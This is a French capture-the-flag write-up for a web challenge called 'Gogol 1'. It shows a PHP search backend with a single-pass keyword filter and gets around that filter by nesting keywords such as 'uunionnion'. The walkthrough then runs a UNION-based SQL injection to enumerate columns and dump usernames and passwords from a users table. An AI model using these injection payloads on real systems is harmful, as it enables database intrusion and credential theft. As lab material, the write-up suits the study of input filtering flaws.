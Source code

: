 # Gogol 1

Ici on a un premier coup de main fourni par l'énoncé

> Tu peux voir le code source de l'application en ajoutant le paramètre "GetItNude" dans ta requête GET.

On récupère donc le code PHP du backend qui gère les recherches.  
Et en PHP, quand on voit une requête non-préparée qui implémente des filtres fait main, en général ça pue l'injection SQL.

On remarque que le filtre consiste à remplacer les mots clés "union" et "select" par.. rien.

```php
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
} 
```

Et comme le filtre n'est appliqué qu'une fois, on peut s'amuser à écrire des choses comme ça `uunionnion` qui, une fois 
passé dans notre "filtre", deviendra un "union" parfaitement valide syntaxiquement parlant. On peut faire le test :

```php
$haystack = "uunionnion";
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $haystack = preg_replace('/' . $banned . '/i', '', $haystack);
}

echo $haystack;
```

Evidemment cela fonctionne aussi pour select (ou devrais-je dire `sselectelect`).

Reste maintenant à échapper notre LIKE dans la requête. Le plus simple est d'utiliser un `' and 0` (ou  un `' and NULL` ou un  `' and 1` ou ... bref vous avez l'idée).
On se retrouve donc avec une requête qui ressemble plus ou moins à ça :

```
' and 0 UUNIONNION SSELECTELECT 1#
```

Reste à déterminer le nombre de colonnes de façon itérative :

```
' and 0 UUNIONNION SSELECTELECT 1#
' and 0 UUNIONNION SSELECTELECT 1,2#
' and 0 UUNIONNION SSELECTELECT 1,2,3# <-- les numéros de colonnes s'affichent 
```

Maintenant qu'on a le nombre de colonne, reste plus qu'à chercher un peu dans la bdd :

```
' and 0 UUNIONNION SSELECTELECT version(),user(),database()#
```


![gogol1_1](gogol_1.png)

on pourrait facilement retrouver le nom des tables mais le plus simple reste d'essayer avec des nom de tables / champs classiques :


```
' and 0 UUNIONNION SSELECTELECT username,password,3 from users#
```

![gogol1_2](gogol_2.png)

Et le challenge est validé :)

`INEAT{azerty-is-a-g00d-p4ssw0rd}`

# Gogol 2
